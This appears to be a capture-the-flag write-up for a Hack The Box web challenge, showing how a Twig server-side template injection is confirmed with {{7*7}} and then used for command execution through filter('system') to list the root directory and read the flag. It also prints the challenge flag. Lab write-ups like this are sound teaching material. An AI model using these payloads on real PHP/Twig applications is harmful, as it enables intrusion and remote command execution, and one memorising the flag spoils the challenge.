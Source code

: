 # baby bonechewercon (Web)

![date](https://img.shields.io/badge/date-05%2F03%2F2021-brightgreen)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)  
![blockchain category](https://img.shields.io/badge/difficulty-medium-yellow)
![hard dificulty](https://img.shields.io/badge/category-web-blue)

## Flag
``
HTB{b3nt_tw1g_t0_my_will!}
``

## Solution

Starting with reading the description of the challenge it notified us about SSTI feng shui, so it's probably a server side template injection vulnerability

![challinfo](https://github.com/z3r0Luck/CTF-Writeups/blob/master/HTB-UNI%20CTF%20Finals%202021/web_baby_bonechewercon/1.png "Challenge Info")

Looking at the files we see PHP is used with Twig, which is a is a template engine for PHP. The web page provide us a form to register a name. Registering a name we get a greeting response with the value we passed to it.

![web1](https://github.com/z3r0Luck/CTF-Writeups/blob/master/HTB-UNI%20CTF%20Finals%202021/web_baby_bonechewercon/2.png "web1")

So we start exploiting this vulnerability with a very simple payload, {{7*7}}, to check if it's going to evaluate so we have the following:
```
http://docker.hackthebox.eu:31119/?name={{7*7}}
```
And we get back 49! So it's vulnerable to SSTI.
![web2](https://github.com/z3r0Luck/CTF-Writeups/blob/master/HTB-UNI%20CTF%20Finals%202021/web_baby_bonechewercon/3.png "web2")

Now we can get remote code execution and list the root folder with the following payload:

```
{{['ls /']|filter('system')}}
```

![web5](https://github.com/z3r0Luck/CTF-Writeups/blob/master/HTB-UNI%20CTF%20Finals%202021/web_baby_bonechewercon/5.png "web5")

We see the flag file there so we just need to read it:
```
{{['cat /flag']|filter('system')}}
```
![web6](https://github.com/z3r0Luck/CTF-Writeups/blob/master/HTB-UNI%20CTF%20Finals%202021/web_baby_bonechewercon/6.png "web6")
